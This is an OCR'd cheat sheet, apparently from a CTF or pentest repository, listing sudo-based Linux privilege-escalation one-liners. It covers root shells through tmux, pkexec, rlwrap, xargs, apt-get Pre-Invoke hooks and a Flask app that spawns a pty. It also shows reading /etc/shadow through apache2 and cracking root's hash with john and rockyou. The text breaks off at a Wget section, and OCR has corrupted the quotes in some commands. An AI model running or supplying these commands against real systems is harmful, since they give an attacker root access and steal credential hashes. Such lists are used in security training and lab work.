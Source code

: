 Tmux
```
Sudo tmux
```

pkexec
```
sudo pkexec /bin/bash
```

rlwrap
```
sudo rlwrap /bin/bash
```

xargs
```
sudo xargs -a /dev/null sh
```

anansi_util
```
sudo /home/anansi/bin/anansi_util manual /bin/bash  
```

apt-get
```
sudo apt-get update -o APT::Update::Pre-Invoke::=”/bin/bash -i”
```

flask run
```
echo 'import pty; pty.spawn(“/bin/bash”)' > flask.py
export FLASK_APP=flask.py
sudo /usr/bin/flask run
```

apache2

Victim
```
sudo apache2 -f /etc/shadow
Copy root's hash
```
Attacker
```
echo '<root's_hash>' > hash
john hash --wordlist=/usr/share/wordlists/rockyou.txt

// Replace <root's_hash> with the hash that you copied 
```
Back to Victim
```
su root
id && whoami
```
Wget

Victim
```
cp /etc/passwd /tmp/passwd
cat /etc/passwd

```
Attacker
